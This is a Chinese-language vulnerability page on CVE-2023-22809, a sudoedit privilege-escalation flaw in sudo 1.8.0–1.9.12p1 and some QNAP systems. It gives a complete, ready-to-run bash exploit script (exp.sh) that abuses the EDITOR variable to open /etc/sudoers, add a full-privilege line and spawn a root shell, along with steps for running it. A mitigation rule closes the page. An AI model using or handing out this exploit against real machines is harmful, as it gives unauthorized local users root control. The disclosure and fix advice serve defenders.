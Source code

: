 # Linux Sudo权限提升漏洞 CVE-2023-22809

## 漏洞描述

Sudo 存在权限提升漏洞，攻击者可过特定的 payload 获取服务器 root 权限。

Sudo 中的 sudoedit 对处理用户提供的环境变量（如`SUDO_EDITOR`、`VISUAL`和`EDITOR`）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的 " –" 参数时，拥有sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升。该漏洞还影响部分 QNAP 操作系统：QTS、QuTS hero、QuTScloud、QVP（QVR Pro 设备）。

## 漏洞影响

```
Sudo:
1.8.0~1.9.12p1 均受影响

QTS 与 QuTS hero：
QTS < 5.0.1.2346 build 20230322
QuTS < hero h5.0.1.2348 build 20230324
```

## 漏洞复现

exp.sh：

```
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

查看本地 sudo 版本：

```
sudo -V
```

执行文件：

```
./exp.sh
```

## 修复建议

使用 sudoedit 时，将受影响的环境变量添加到 env_delete 拒绝列表中，例如：

```
Defaults!SUDOEDIT env_delete+="SUDO_EDITOR VISUAL EDITOR"
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom/service.conf
user ALL=(ALL:ALL) SUDOEDIT
```

